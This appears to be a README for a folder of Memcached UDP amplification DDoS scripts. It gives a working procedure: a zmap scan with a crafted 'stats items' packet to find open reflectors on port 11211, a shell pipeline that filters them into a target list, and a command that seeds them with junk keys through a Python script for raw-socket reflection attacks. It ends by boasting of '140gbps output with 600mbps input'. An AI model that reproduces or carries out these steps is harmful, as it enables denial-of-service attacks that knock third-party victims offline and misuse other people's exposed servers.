 # MemcacheD (Active Q2 2020)

## Port: 11211

## Proto: UDP

## Amplification factor: 200x (Q2 2020 - using `memcached-static.c` script)

## Reflector count: 1,900 (Q2 2020)

---

Amplification scripts in this folder:

- **memcached-dynamic.c** - Dynamic key reflection query generator C script (raw sockets)
- **memcached-static.c** - Static key reflection template C socket script (raw sockets)

This folder holds all relevant scripts for Memcache amplification (in 2020) utilising either dynamic `<ip> <value>` mg/get/gets command to the effect of garnering the largest amplification factor per IP with the least amount of work (**see memcached-filter.py**); alternatively utilising static gets command to known memcache keys that are pre-seeded from a list file.

Memcache Daemon has thankfully been patched and most old and vulnerable devices have been removed from the internet following the [1.7tbps attack incident back in 2017](https://www.zdnet.com/article/new-world-record-ddos-attack-hits-1-7tbps-days-after-landmark-github-outage/) through efforts of the community at large.

### How does it work

- Using Python to dynamically seed MemcacheD devices that respond to "stats items" query, with bogus data to keys of length 1 that are then used by dynamic or static amplification scripts.
- Either dynamic script (scanned and filtered list of keys) or static script (pre-seeded keys) to generate amplification via raw sockets.

### How to use

#### First use zmap to scan for all reflectors responding to "stats items"

- `echo -ne '\x00\x01\x00\x00\x00\x01\x00\x00stats items\r\n'>memecached.pkt`
- `zmap -p11211 --output-filter='sport=11211' -Mudp --probe-args=file:memecached.pkt -f "saddr,udp_pkt_size,data" -o /root/memcached-live`

#### Filter list using this command (this removes bogus responses and cleans up the list)

- `cat /root/memcached-live | sed 's/,/ /g' | sed 's/saddr.*//g' | awk '$2 == 21 || $2 == 20 || $2 > 26' | awk '{print $1}' | uniq >memcached.list;wc -l memcached.list`

The list is now ready for seeding with the python script in this folder. You can now download the list `memcached.list` as this will be usable by the C scripts in this folder as well.

#### Run the seeding process

This just uses a junkfile to hold output which is erased at the start if it exists, thus you can paste the entire line in over and over to seed the IPs present in the `memcached.list` file!

- `rm junkfile;shuf memcached.list>shufflejunk;mv shufflejunk memcached.list;screen -dmS seeder python3 memecached-seeder.py memcached.list junkfile`

#### Congrats, 140gbps output with 600mbps input...
